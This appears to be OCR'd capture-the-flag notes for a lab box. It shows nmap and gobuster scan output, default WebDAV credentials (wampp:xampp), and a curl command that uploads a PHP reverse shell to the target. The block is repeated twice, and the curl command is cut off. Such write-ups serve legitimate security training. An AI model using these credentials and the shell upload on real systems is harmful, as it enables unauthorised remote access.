 NMAP RESULTS
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

GOBUSTER RESULTS
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
================================

default creds for webdav are available in internet
wampp:xampp

cmd to upload a shell
curl http://10.10.162.236/webdav/php-reverse-shell.php -u wampp:xampp --upload-file 
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works


/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
================================

default creds for webdav are available in internet
wampp:xampp

cmd to upload a shell
curl http://10.10.162.236/webdav/php-reverse-shell.php -u wampp:xampp --upload-file 
